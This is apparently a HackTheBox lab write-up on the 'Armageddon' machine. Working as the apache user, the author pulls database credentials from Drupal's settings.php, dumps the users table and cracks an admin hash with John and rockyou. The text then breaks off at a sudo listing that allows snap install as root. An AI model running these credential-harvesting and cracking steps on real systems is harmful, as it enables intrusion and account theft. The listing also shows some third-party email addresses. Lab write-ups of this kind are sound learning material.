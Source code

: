 
---

## h) Hack a box from HackTheBox

I already had access to Armaggeddon machine, so I wanted to continue to see, if I could get root access.

I started by looking at what user I was and what files I had access to. I noticed I was the apache user and I had access to /var/www/html directory, which is the web servers directory.

I started browsing what files there were and I found one particularly intereseting file at /var/www/html/sites/default/settings.php, which contained the login credentials to the database.

- Next I started browsing the database for interesting information:

  ```shell
  mysql --host localhost --user drupaluser --password --database drupal
  use drupal;
  select * from users;
  show;
  ```

- I got the hashed passwords, that I needed to solve

  | uid | name | pass | mail | theme | signature | signature_format | created | access |
  |-|-|-|-|-|-|-|-|-|
  |0|NULL|0|0|0|0|NULL|0|NULL|
  |1|brucetherealadmin|$HASH_REMOVED_AS_BOX_IS_ACTIVE|admin@armageddon.eu|filtered_html|1606998756|1620130642|1620129461|1|Europe/London|0|admin@armageddon.eu|a:1:{s:7:"overlay";i:1;}|
  |3|test|$HASH_REMOVED_AS_BOX_IS_ACTIVE|test@htb.eu|filtered_html|1620103868|0|0|0|Europe/London|0|test@htb.eu|NULL|
  |4|ramkrishna|$HASH_REMOVED_AS_BOX_IS_ACTIVE|darkmovestudios@gmail.com|filtered_html|1620104172|0|0|0|Europe/London|0|darkmovestudios@gmail.com|NULL|
  |5|gml63248|$HASH_REMOVED_AS_BOX_IS_ACTIVE|gml63248@zwoho.com|filtered_html|1620117834|0|0|0|Europe/London|0|gml63248@zwoho.com|NULL|

- I decided to try and see, if I could crack the hash with John

  ```shell
  echo -n $BRUCEPASSWORDHAS > bruce.txt
  john bruce.txt -w$(zcat /usr/share/wordlists/rockyou.tgz)
  ```

- One match found for brucetherealadmin's password and I managed to login as bruce with that password
- I tried to list bruces sudo permissions

  ```shell
  sudo -l

  Matching Defaults entries for brucetherealadmin on armageddon:
      !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
      LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
      LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
      XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

  User brucetherealadmin may run the following commands on armageddon:
      (root) NOPASSWD: /usr/bin/snap install *
  ```
